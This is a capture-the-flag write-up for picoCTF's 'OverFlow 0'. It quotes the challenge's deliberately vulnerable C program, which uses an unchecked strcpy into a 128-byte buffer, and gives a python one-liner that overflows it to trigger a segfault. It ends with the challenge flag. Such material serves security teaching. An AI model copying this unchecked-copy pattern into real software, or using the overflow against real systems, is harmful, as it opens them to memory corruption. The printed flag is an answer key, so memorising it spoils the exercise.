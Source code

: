 # OverFlow 0 

Points : 100

# Question

This should be easy. Overflow the correct buffer in this [program](vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](vuln.c).

# Hint 

Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters.
Sometimes there are things you aren't expecting.


# Solution

By examin the source code we can see that :

``` C

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];		<-------------------- We create new buffer size 128
  strcpy(buf, input);		<--------- We copy our input to the buffer using strcpy (which is vulnerable to buffer over flow)
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);          <-------- If we get SIGSEGV then we jump to sigsegv_handler which print the flag
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {                              <------ if our input is > 1 then we call vuln function 
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

basically if we mange to cause a SIGSEGV we will get the flag .
we can do this by overrride the return address.


since our buffer is 128 Bytes and we have another 4 bytes of EBP, we need to overflow 132 just to get to the return adress .
then we need 1 or more to override it .

```./vuln $(python -c "print 'A'*(BUFFER+EBP_SIZE+1 OR MORE)")```

![](overflow0.png)


# Flag
picoCTF{3asY_P3a5y1fcf81f9}

